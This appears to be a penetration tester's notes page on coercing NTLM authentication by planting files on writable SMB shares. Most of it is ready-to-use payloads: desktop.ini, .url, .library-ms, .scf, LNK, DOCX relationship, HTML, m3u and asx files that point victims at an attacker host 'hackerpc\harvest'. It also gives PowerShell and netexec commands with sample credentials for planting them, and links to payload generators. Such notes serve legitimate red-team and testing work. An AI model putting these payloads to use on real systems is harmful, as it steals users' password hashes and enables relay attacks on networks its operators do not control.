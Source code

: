 ```yaml
---
title: NTLM Relay from SMB share
---
```


Create a [[notes/ad/ntlm-relay-source]] by placing special files on SMB shares to coerce NTLM authentication [[notes/ad/ntlm-relay-from-smb|via SMB]] or [[notes/ad/ntlm-relay-from-webdav|via WebDAV]] from anybody who visits that share.

Place one of the following example files on a writable SMB share and be patient while waiting for connections.
If WebDAV doesn't work, try regular SMB.

`desktop.ini`:

~~~
[.ShellClassInfo]
IconResource=\\hackerpc@80\harvest\test.ico,0
~~~

`coerce.url`:

~~~
[InternetShortcut]
URL=http://example.com
IconFile=\\hackerpc@80\harvest\%USERNAME%.ico
IconIndex=1
~~~

`coerce.library-ms`:

~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
      <url>\\hackerpc@80\harvest</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
~~~

LNK file.

=== "powershell"
    ~~~ powershell
    $shell = New-Object -ComObject WScript.Shell
    $lnk = $shell.CreateShortcut('\\srv01.corp.local\transfer\@test.lnk')
    $lnk.TargetPath = '\\hackerpc\harvest\test.txt'
    $lnk.IconLocation = '%windir%\system32\shell32.dll,3'
    $lnk.Save()
    ~~~

    [source](https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/)

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M slinky -o NAME=.thumbs.db SERVER=$LHOST
    netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M slinky -o NAME=.thumbs.db SERVER=$LHOST CLEANUP=true
    ~~~

    [source](http://web.archive.org/web/20230426070201/https://mayfly277.github.io/posts/GOADv2-pwning-part13/)

`coerce.scf`:

~~~ ini
[Shell]
Command=2
IconFile=\\hackerpc\harvest\test.ico
[Taskbar]
Command=ToggleDesktop
~~~

Place a SCF file on a share.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M scuffy -o NAME=.thumbs.db SERVER=$LHOST
    netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M scuffy -o NAME=.thumbs.db SERVER=$LHOST CLEANUP=true
    ~~~

    [source](http://web.archive.org/web/20230426070201/https://mayfly277.github.io/posts/GOADv2-pwning-part13/)

All following files trigger NTLM authentication only after the user opened them.

Unpack a DOCX file and modify `word\_rels\settings.xml.rels`:

~~~ xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
  <Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://hackerpc@80/leak/template.dotx" TargetMode="External"/>
</Relationships>
~~~

`coerce.html` ([source](https://web.archive.org/web/20210106231759/https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML)):

~~~ html
<html>
  <body>
    <svg version="1.1" xmlns="http://www.w3.org/2000/svg">
      <rect cursor="url(file://hackerpc@80/harvest),auto" />
    </svg>
  </body>
</html>
~~~

Office URL handler.

~~~
ms-word:ofe|u|\\hackerpc@80\harvest\test.docx
~~~

Windows Media Player, `coerce.m3u`:

~~~
#EXTM3U
#EXTINF:1337, Leak
\\hackerpc@80\harvest\test.mp3
~~~

Windows Media Player, `coerce.asx`:

~~~ xml
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://hackerpc@80/harvest/test.wma"/>
  </entry>
</asx>
~~~

Untested tools:

- [ntlmthief](https://github.com/4ndr34z/ntlmthief), generates Word, PowerPoint, Excel and PDF documents that trigger a SMB connection
- [ntlm_theft](https://github.com/Greenwolf/ntlm_theft), generates many different file types that trigger a SMB connection
- [LNKUp](https://github.com/Plazmaz/LNKUp), generate LNK payloads with Python
- [hashgrab](https://github.com/xct/hashgrab), generate SCF, URL and LNK payloads with Python
- [All_NTLM_leak](http://web.archive.org/web/20221123100814/https://github.com/Gl3bGl4z/All_NTLM_leak), link collection

References:

- [GOAD - part 13 - Having fun inside a domain](http://web.archive.org/web/20230426070201/https://mayfly277.github.io/posts/GOADv2-pwning-part13/)
- [Living off the land: stealing NetNTLM hashes](http://web.archive.org/web/20221022111143/https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

